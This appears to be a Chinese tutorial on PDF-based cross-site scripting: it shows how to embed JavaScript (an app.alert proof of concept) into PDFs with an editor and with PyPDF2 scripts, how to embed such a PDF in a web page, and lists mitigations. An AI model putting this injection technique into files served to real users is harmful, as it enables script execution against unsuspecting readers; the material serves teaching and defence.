







0x01 制作方法
PDF 编辑软件
Adobe Acrobat DC




迅捷 PDF 编辑
1) 启动迅捷 PDF 编辑器打开一个 PDF 文件，或者使用“创建 PDF 文件”功能，通过将其他文档和资源转换为“可移植文档格式”来创建 PDF 文件。

2) 单击左侧的“页面”标签，选择与之对应的页面缩略图，然后从选项下拉菜单中选择“页面属性”命令

3) 在“页面属性”对话框单击“动作”标签，再从“选择动作”下拉菜单中选择“运行 JavaScript”命令，然后单击【添加】按钮，弹出 JavaScript 编辑器对话框，填写 JavaScript 代码。

4) 在弹出的“JavaScript 编辑器”对话框中输入代码：
app.alert(‘XSS’);
单击【确定】按钮保存 PDF 文件。
这里需要注意的是：Adobe 支持自身的 JavaScript 对象模型，例如 alert(‘xss’) 必须被 APP 对象调用，因此变成了 app.alert(‘xss’)。这意味着，利用 JavaScript 进行攻击时只能使用 Adobe 所支持的功能。
5) 关闭软件，直接打开刚才保存的 PDF 文件，JavaScript 代码即被执行。经过测试最新版本的 360 浏览器和谷歌浏览器支持
6) 现在，尝试把 PDF 文件嵌入到网页中并试运行。创建一个 HTML 文档，代码如下：
<html>
<body>
<object data="test.pdf" width="100%" heigh="100%" type="application/pdf"></object>
</body>
</html>
除了把 JavaScript 嵌入 PDF 文件中执行，还可以利用基于 DOM 的方法执行 PDF XSS。此类方法由 Stefano Di Paola 和 Giorgio Fedon 在第 23 届 CCC 安全会议中提出，大家可以参考论文 Adobe Acrobat。
Stefano Di Paola 把 PDF 中的 DOM XSS 称为 UXSS（Universal Cross-Site Scripting）。事实上，任何支持 PDF 文件的网站都可能存在这种漏洞。
Python
1) 首先安装 PyPDF2
┌──(root㉿kali)-[~]
└─# pip install PyPDF2
2) 直接新建内嵌 xss 的 pdf
from PyPDF2 import PdfReader, PdfWriter
# 创建一个新的 PDF 文档
output_pdf = PdfWriter()
# 添加一个新页面
page = output_pdf.add_blank_page(width=72, height=72)
# 添加 js 代码
output_pdf.add_js("app.alert('xss');")
# 将新页面写入到新 PDF 文档中
with open("xss.pdf", "wb") as f:
output_pdf.write(f)
3) 将 JavaScript 代码嵌入到已有 pdf
from PyPDF2 import PdfReader, PdfWriter
# 打开原始 PDF 文件
input_pdf = PdfReader("x.pdf")
# 创建一个新的 PDF 文档
output_pdf = PdfWriter()
# 将现有的 PDF 页面复制到新文档
for i in range(len(input_pdf.pages)):
output_pdf.add_page(input_pdf.pages[i])
# 添加 JavaScript 代码
output_pdf.add_js("app.alert('xss');")
# 将新 PDF 文档写入到文件中
with open("xss.pdf", "wb") as f:
output_pdf.write(f)

0x02 修复方法
- 而作为网站管理员或开发者，可以选择强迫浏览器下载 PDF 文件，而不是提供在线浏览等，或修改 Web 服务器配置的 header 和相关属性。
- 可以使用第三方插件解析 pdf，不用 chrome 自带的 pdf 解析，https://github.com/adobe-type-tools/cmap-resources